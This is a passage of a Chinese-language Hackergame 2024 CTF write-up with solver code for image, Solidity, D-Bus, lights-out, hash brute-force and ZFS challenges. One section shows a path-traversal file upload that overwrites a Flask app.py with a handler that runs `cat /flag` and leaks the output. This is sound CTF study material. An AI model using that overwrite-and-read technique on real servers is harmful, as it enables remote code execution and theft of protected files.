# 这个函数是 gene_image 的简化版，好抄一些
def fun():
    # 424d 36eb 4100 0000 0000 3600
    # 0000 2800 0000 0807 0000 2003
    # 0000 0100 1800 0000 0000 00eb
    # 4100 2516 0000 2516 0000 0000
    # 0000 0000 0000
    bh = bytes.fromhex("424d36eb41000000000036000000280000000807000020030000010018000000000000eb410025160000251600000000000000000000")
    binary_sequences = []
    item=''
    with open(TEST_FILE_NAME, 'rb') as f:
        chunk = f.read(524288)
        item = ''.join(format(byte, '08b') for byte in chunk)
        # sha256_hash = hashlib.sha256()
        # sha256_hash.update(chunk)
        # print(sha256_hash.hexdigest())
    pd = ''
    item += '0'*128696
    for y in range(800):
        for x in range(1800):
            for z in range(3):
                pos = ((799-y) * 1800 + x)*3+z
                if item[pos] == '1':
                    pd += 'ff'
                else:
                    pd += '00'
    with open('output0.bmp', 'wb') as f:
        f.write(bh)
        f.write(bytes.fromhex(pd))

def gene_test_file():
    with open(TEST_FILE_NAME, 'wb') as f:
        f.write(os.urandom(524288))
        
    sha256_hash = hashlib.sha256()
    with open(TEST_FILE_NAME, 'rb') as f:
        for byte_block in iter(lambda: f.read(4096), b""):
            sha256_hash.update(byte_block)
    print(sha256_hash.hexdigest())

def gene_images():
    width = 1920
    height = 1080
    row_padded = (width * 3 + 3) & (~3)  # 每行需要4的倍数
    
    # BMP文件头
    bmp_file_header = bytearray([
        0x42, 0x4D,  # 'BM'
        0x36, 0x00, 0x00, 0x00,  # 文件大小 (54 + pixel_data.size)
        0x00, 0x00,  # 保留字段1
        0x00, 0x00,  # 保留字段2
        0x36, 0x00, 0x00, 0x00,  # 像素数据偏移
        0x28, 0x00, 0x00, 0x00,  # 信息头大小
        0x80, 0x07, 0x00, 0x00,  # 图像宽度 (1024)
        0x38, 0x04, 0x00, 0x00,  # 图像高度 (1024)
        0x01, 0x00,  # 颜色平面数
        0x18, 0x00,  # 每像素位数 (24)
        0x00, 0x00, 0x00, 0x00,  # 压缩方式
        0x00, 0x00, 0x00, 0x00,  # 图像数据大小
        0x13, 0x0B, 0x00, 0x00,  # 水平分辨率 (2835像素/米)
        0x13, 0x0B, 0x00, 0x00,  # 垂直分辨率 (2835像素/米)
        0x00, 0x00, 0x00, 0x00,  # 使用的颜色数
        0x00, 0x00, 0x00, 0x00   # 重要颜色数
    ])
    
    bmp_file_header = bytes.fromhex("424d36ec5e000000000036000000280000008007000038040000010018000000000000ec5e0000000000000000000000000000000000")

    # 创建像素数据
    binary_sequences = []

    # 读取文件并分块
    with open(TEST_FILE_NAME, 'rb') as f:
        for i in range(16):
            chunk = f.read(32768)
            if not chunk:  # 如果没有更多内容，停止读取
                break
            
            # 将每个字节转换为二进制字符串
            binary_sequence = ''.join(format(byte, '08b') for byte in chunk)
            binary_sequences.append(binary_sequence)
    
    pd = ''
    item = ''.join(binary_sequences)
    print(len(item))
    item += '0'*(1920*1080*3-4194304)
    print(len(item))
    print(item[0:10])
    for y in range(1080):
        for x in range(1920):
            for z in range(3):
                pos = ((1079-y) * 1920 + x)*3+z
                if item[pos] == '1':
                    pd += 'ff'
                else:
                    pd += '00'

        # 写入文件
    with open('output0.bmp', 'wb') as f:
        f.write(bmp_file_header)
        f.write(bytes.fromhex(pd))


def img2bin():
    res = []
    for i in range(IMAGES_CNT):
        filename = 'output0.png'
        # 打开图片
        img = Image.open(filename).convert('RGB')
        width, height = img.size

        binary_sequence = ""

        for i in range(4194304//3+1):
            x0 = i % 1800
            y0 = i // 1800
            try:
                color = img.getpixel((x0, y0))
            except:
                print(width, height)
                print(x0, y0)
                exit()


            if color[2] > 127:
                binary_sequence += "1"  # 白色部分
            else:
                binary_sequence += "0"  # 黑色部分

            if color[1] > 127:
                binary_sequence += "1"  # 白色部分
            else:
                binary_sequence += "0"  # 黑色部分

            if color[0] > 127:
                binary_sequence += "1"  # 白色部分
            else:
                binary_sequence += "0"  # 黑色部分
        binary_sequence = binary_sequence[0:4194304]
        print(binary_sequence[0:10])
        print(len(binary_sequence))
        
        bytes_object = bytes([int(binary_sequence[i:i+8], 2) for i in range(0, len(binary_sequence), 8)])
        hex_data = binascii.hexlify(bytes_object)
        res.append(bytes_object)
    
    bytes_joiner = b''
    origin_bytes = bytes_joiner.join(res)
    sha256_hash = hashlib.new('sha256')
    sha256_hash.update(origin_bytes)
    print(sha256_hash.hexdigest())
    with open('a.bin', 'wb') as f:
        f.write(origin_bytes)

if __name__ == "__main__":

    # gene_test_file()
    # gene_images()
    # fun()
    img2bin()
```

在环境上运行脚本，可以得到下面的图片：


虽然乱了些，但要是使用取色工具不难发现，每个像素不是 `ff` 就是 `00`，完全没有压缩，很容易恢复。

实际操作中可以使用浏览器打开，使用 100% 缩放来防止像素被破坏。截得时候不用太仔细，截出来再用画图工具裁切一下就行了。

## 链上转账助手

#### 转账失败

这道题只要转账失败就可以拿到 flag，因此找到在接收 token 的时候执行的函数，随便找个理由给他拒绝了就行了。这里随便找了个合约的代码改了改：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ConditionalReceiveEther {
    uint public minimumAmount = 100000 ether;
    event Received(address sender, uint amount);
    receive() external payable {
        require(msg.value >= minimumAmount, "Amount sent is less than the minimum required");
        emit Received(msg.sender, msg.value);
        _afterReceiveEther();
    }
    fallback() external payable {
        require(msg.value >= minimumAmount, "Amount sent is less than the minimum required");
        emit Received(msg.sender, msg.value);
        _afterReceiveEther();
    }
    function _afterReceiveEther() private {
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    function setMinimumAmount(uint _newMinimumAmount) public {
        minimumAmount = _newMinimumAmount;
    }
}
```

#### 转账又失败
这道题虽然一开始没什么思路，但对比第三问，只是在第二题的基础上加上了 gas 的限制，因此第二问也很简单了，只要把 gas 耗光就行了：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ConditionalReceiveEther {
    uint public minimumAmount = 1000000 ether;
    event Received(address sender, uint amount);
    receive() external payable {
        uint j = 0;
        while (j < 100000) {
            j += 1;
        }
        emit Received(msg.sender, msg.value);
        _afterReceiveEther();
    }
    fallback() external payable {;
        uint j = 0;
        while (j < 100000) {
            j += 1;
        }
        emit Received(msg.sender, msg.value);
        _afterReceiveEther();
    }
    function _afterReceiveEther() private {
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    function setMinimumAmount(uint _newMinimumAmount) public {
        minimumAmount = _newMinimumAmount;
    }
}
```


## 不太分布式的软总线

这是一道 ~~general~~ ai 题。本来看到题目这么靠后是不打算做的，直到看到有群友靠 ai 做出来了（


这就是所谓的 `面向群友解题` 吧

#### What DBus Gonna Do?

题目本身给了个示例代码，稍微修改一下使其符合要求就行了

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag1"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

static void on_method_call_reply(GObject* source_object, GAsyncResult* res, gpointer user_data) {

}

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // Call the D-Bus method
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       g_variant_new("(s)", "Please give me flag1"),        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       NULL,
                                       &error);

  if (result) {
    gchar* myres;
    g_variant_get(result, "(&s)", &myres);
    g_print("%s\n", myres);
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);

  return EXIT_SUCCESS;
}
```
#### If I Could Be A File Descriptor		250	117

同样，只要把问题部分的源码扔给 ChatGPT，让后让他写段符合要求的代码，然后再改改就行了。

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

static void on_method_call_reply(GObject* source_object, GAsyncResult* res, gpointer user_data) {

}

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  int fd = memfd_create("my_memfile", MFD_CLOEXEC);
  if (fd == -1) {
    perror("E1");
    return 1;
  }
  const char *msg = "Please give me flag2\n";
  if (write(fd, msg, strlen(msg)) == -1) {
    perror("Error\n");
    close(fd);
    return 1;
  }
  lseek(fd, 0, SEEK_SET);

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }
  
  GVariantBuilder builder;
  g_variant_builder_init(&builder, G_VARIANT_TYPE("(h)"));
  g_variant_builder_add(&builder, "h", 0);
  
  GUnixFDList* fd_list;
  GUnixFDList* out_fd_list;
  fd_list = g_unix_fd_list_new();
  g_unix_fd_list_append(fd_list, fd, &error);
  if (error != NULL) {
    g_error("Error\n");
    g_error_free(error);
    g_object_unref(connection);
    return 1;
  }
  
  GVariant* parameters;
  parameters = g_variant_builder_end(&builder);

  // Call the D-Bus method
  result = g_dbus_connection_call_with_unix_fd_list_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       parameters,        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       fd_list, 
                                       &out_fd_list,
                                       NULL,
                                       &error);

  if (result) {
    gchar* myres;
    g_variant_get(result, "(&s)", &myres);
    g_print("%s\n", myres);
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);

  return EXIT_SUCCESS;
}
```
#### Comm Say Maybe

最后一问，题目要求执行文件的文件名为 getflag3，观察源码可知题目并没有对执行权限作出限制，因此直接把自己复制一份就行了。

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

static void on_method_call_reply(GObject* source_object, GAsyncResult* res, gpointer user_data) {

}

int main(int argc, char* argv) {
  if(argc == 1) {
    system("cp /dev/shm/executable /dev/shm/getflag3");
    system("/dev/shm/getflag3 123 123");
    return 0;
  }

  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // Call the D-Bus method
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       NULL,        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       NULL, &error);

  if (result) {
    g_print("Get result but I won't show you :)\n");
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);

  return EXIT_SUCCESS;
}
```

## 关灯

#### Easy - Hard

这道题和 2 维的关灯基本一样，我直接去抄了个代码改改就过了。

需要注意的就是在 3 维的时候有时候会出现多解，需要额外处理下。

```Python
import numpy as np
from pwn import *

def gauss(a, nn):
    r = 0
    for c in range(nn):
        t = r
        for i in range(r, nn):
            if a[i, c] == 1:
                t = i
                break
        if a[t,c] == 0:
            continue
        # 换到最上面
        for i in range(c, nn+1):
            swaper = a[t, i]
            a[t, i] = a[r, i]
            a[r, i] = swaper
        # 下面都变成0
        for i in range(r+1, nn):
            if a[i, c] == 1:
                for j in range(c, nn+1): # ????
                    a[i, j] ^= a[r, j]
        r += 1
    # 检查是否有解
    # for i in range(r, nn):
    #     if a[i, nn] == 1:
    #         return -1
    # 化为行最简
    for i in range(0, nn):
        p = -1
        for j in range(i, nn):
            if a[i, j] == 1:
                p = j
                break
        if p == -1:
            break
        for j in range(0, i):
            if a[j, p] == 1:
                for k in range(p, nn+1):
                    a[j, k] ^= a[i, k]
    # 换位 i是行
    for i in range(nn-1, -1, -1):
        p = -1
        for j in range(0, nn):
            if a[i, j] == 1:
                p = j
                break
        if p == i:
            break
        if p == -1:
            continue
        for j in range(p, nn+1):
            a[p, j] = a[i, j]
            a[i, j] = 0
    return a

def solve(goal, n):
    nn = n ** 3

    mat = np.zeros((nn, nn+1), dtype=int)
    for i in range(n):
        for j in range(n):
            for k in range(n):
                pos = i*n**2 + j*n + k
                mat[pos, pos] = 1
                if i - 1 >= 0:
                    mat[pos, (i-1)*n**2 + j*n + k] = 1
                if i + 1 < n:
                    mat[pos, (i+1)*n**2 + j*n + k] = 1
                if j - 1 >= 0:
                    mat[pos, i*n**2 + (j-1)*n + k] = 1
                if j + 1 < n:
                    mat[pos, i*n**2 + (j+1)*n + k] = 1
                if k - 1 >= 0:
                    mat[pos, i*n**2 + j*n + (k-1)] = 1
                if k + 1 < n:
                    mat[pos, i*n**2 + j*n + (k+1)] = 1

    for i in range(nn):
        if goal[i] == '1':
            mat[i, nn] = 1
        else:
            mat[i, nn] = 0
        
    resmat = gauss(mat, nn)

    resstr = ''
    for i in range(nn):
        if mat[i, nn] == 1:
            resstr += '1'
        else:
            resstr += '0'
    return resstr

SOLVE_DIIFFICULTY = 3
SOLVE_N = [0,3,5,11,149]

r = remote('202.38.93.141', 10098)
r.recvuntil(b'Please input your token: ')
r.sendline(b'<token>')

r.recvuntil(b'Enter difficulty level (1~4): ')
r.sendline(str(SOLVE_DIIFFICULTY).encode())

q = r.recvline()[0:-1].decode()
r.recvuntil(b'Enter your answer:')
ans = solve(q, SOLVE_N[SOLVE_DIIFFICULTY])
r.sendline(ans.encode("utf-8"))
res = r.recvline().decode()
print(res)
```
~~虽然跑起来慢了点，但还是够用的~~

#### Impossible

可惜我的电脑没有 10T 的内存，做不出来，过！
")

# 禁止内卷

这道题观察题目源码可以知道，题目在允许上传文件的同时并没有对文件名做检查，因此在上传文件的时候可以通过在文件名上加 `../` 的方式把文件上传到任何地方。再加上题目很贴心的说了：`而且有的时候助教想改改代码，又懒得手动重启，所以还开了 --reload 。因此就不难想出本体的解法就是去覆盖 app.py 这个文件了`。

在做的时候我原本的想法是想直接读取对应的 `answer.json` ，但不知道为什么，总是读不出来。于是改变思路，直接去用 shell 。最后修改的 `app.py` 是这样的（只展示了 submit 函数）：

```Python
@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    res = ''
    result = subprocess.run(['cat', '/flag'], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    res += result.stdout

    flash("111" + res)
    return redirect("/")
```

在上传的时候，不要忘了使用 `Burpsplit` 把文件名改成 `./../web/app.py`。


 
# 零知识数独

没啥好说的，搜一个数独的在线求解器，做就是了。

（只做出来这一问）
 
## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」

#### 「行吧就算标题可以很长但是 flag 一定要短点」

这道题是有思路的，但可惜原本的思路因为前置知识不够跑不通，只好使笨方法了。

先根据给出的文本根据常识填掉一些 x，

之后把剩下的部分交给 ChatGPT，让 GPT 填上

再排除掉一些不匹配的单词后，开始暴力搜。

```Python
import re
import hashlib

orig = 'In the REPLACE1 REPLACE2 of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt REPLACE3 REPLACE4. As the first challenge was announced, a REPLACE5 of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest REPLACE6 REPLACE7, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.'
target = '809101c781f829a33021750de895b7f5130ba6c8f42862e955650dbf7f3c21d7'

content = ''
with open("ecdict.csv","r",encoding="utf-8") as f:
    content = f.read()

res = []
p1 = r'(67(h|a|c|k|e|r|g|m){3}nd)'
res.append(set([_[0] for _ in re.findall(p1, content)]))
p2 = r'((h|a|c|k|e|r|g|m){2}ll)'
res.append(set([_[0] for _ in re.findall(p2, content)]))
p3 = r'(Et(h|a|c|k|e|r|g|m){3}n(h|a|c|k|e|r|g|m)t)'
res.append([_[0] for _ in re.findall(p3, content)])
p4 = r'((h|a|c|k|e|r|g|m){2}bl(h|a|c|k|e|r|g|m)s)'
res.append(set([_[0] for _ in re.findall(p4, content)]))
p5 = r'(t(h|a|c|k|e|r|g|m){3})'
res.append(set([_[0] for _ in re.findall(p5, content)]))
p6 = r'(s(h|a|c|k|e|r|g|m){2}v(h|a|c|k|e|r|g|m){2})'
res.append([_[0] for _ in re.findall(p6, content)])
p7 = r'((h|a|c|k|e|r|g|m)oo(h|a|c|k|e|r|g|m))'
res.append([_[0] for _ in re.findall(p7, content)])

cnt = 0
for i0 in res[0]:
    for i1 in res[1]:
        for i2 in res[2]:
            for i3 in res[3]:
                for i4 in res[4]:
                    for i5 in res[5]:
                        for i6 in res[6]:
                            replaced = orig
                            replaced = replaced.replace('REPLACE1', i0)
                            replaced = replaced.replace('REPLACE2', i1)
                            replaced = replaced.replace('REPLACE3', i2)
                            replaced = replaced.replace('REPLACE4', i3)
                            replaced = replaced.replace('REPLACE5', i4)
                            replaced = replaced.replace('REPLACE6', i5)
                            replaced = replaced.replace('REPLACE7', i6)
                            cnt += 1
                            sha256_hash = hashlib.sha256()
                            sha256_hash.update(replaced.encode())
                            digest = sha256_hash.hexdigest()
                            if digest == target:
                                sha512_hash = hashlib.sha512()
                                sha512_hash.update(replaced.encode())
                                digest512 = sha512_hash.hexdigest()
                                print(digest512)
```

#### 「就算你把我说的话全出成题目也不会赢得我的好感的哼」

虽然没做出来，但思路还是有点的。在大语言模型中，在输出的时候，一般都不是使用前面的 token 直接计算出下一个 token 是几的，而是对所有可能的结果输出一个概率，之后取概率最大的那个进行输出。因此虽然我们不知道原题目在输出的时候使用的 seed 是几，但一般情况下在一个 seed 的情况下输出的结果在其他的 seed 的时候概率也不会很低。我们就可以针对所有排名靠前的词语做一个 DFS，先拼进去，当遇到不是x的情况时，就去和题目给出的字符串比较，相同就继续，不同就倒回去重新做。

但遗憾的是 ChatGPT 给我的代码跑出来不是我想要的结果，因此也就做不出来了。

## ZFS 文件恢复（没做出来）

这道题算是让我拍大腿的一道题了（

首先把题目给出的 img 文件直接拖到 16 进制编辑器中，不难找到和 flag 相关的这一段内容：



从内容不难判断，只要构造一个跟两个文件的修改日期和最后访问日期的相关字符串，就可以计算得出本题的flag。

因此，可以用不记得哪找的命令，得出所有块的日期相关。

```Bash
sudo zfs -ddddd hg2024 >> a.txt
```




可惜的是，当时我都看到这两个文件了，但看见两个奇怪的修改日期，以为是什么其他的不想管的情况，就忽略了。
（

直到看见官方 WP：



顿时就拍大腿了（

当时做题的我还不知道官方已经贴心的做了防爆破处理，差点让我的电脑去爆破了（

先是想着，用正则匹出来所有可能是时间戳的 16 进制字符串：

```Python
content = ''
with open('zfs.img', 'rb') as f:
    content = f.read().hex()

p1 = r'((0|1|2|3|4|5|6|7|8|9|a|b|c|d|e|f){4}((17)|(18)|(19)|(1a)|(1b)|(1c)|(1d)|(1e)|(1f)|(20)|(21)|(22)|(23)|(24)|(25))67)'
res = set([_[0] for _ in re.findall(p1, content)])

res2 = []
for item in res:
    res2.append(item[6]+item[7]+item[4]+item[5]+item[2]+item[3]+item[0]+item[1])

res = res2

print(len(res))
for item in res:
    print(item)
    print(int(item, 16))

for i in res:
    for j in res:
        for k in res:
            for l in res:
                s = 'hg2024_%s.%s_%s.%s_zfs' % (int(i, 16), int(j, 16), int(k, 16), int(l, 16))
                sha256_hash = hashlib.sha256()
                sha256_hash.update(s.encode())
                digest = sha256_hash.hexdigest()

                if digest == target:
                    print(digest)
                    print(s)
```

最后更是直接爆破：

```Python
s = 'hg2024_%s.%s_%s.%s_zfs' % (1729690642,1729690642,1729690642,1729690642)
basetime = 1729690642
timerange = 250
for i in range(0, timerange):
    for j in range(0, timerange):
        for k in range(0, timerange):
            for l in range(0, timerange):
                s = 'hg2024_%s.%s_%s.%s_zfs' % (basetime+i+j, basetime+i, basetime+k+l, basetime+k)
                sha256_hash = hashlib.sha256()
                sha256_hash.update(s.encode())
                digest = sha256_hash.hexdigest()

                if digest == target:
                    print(digest)
                    print(s)
```

唉，不提了不提了

# 后记

没有后记（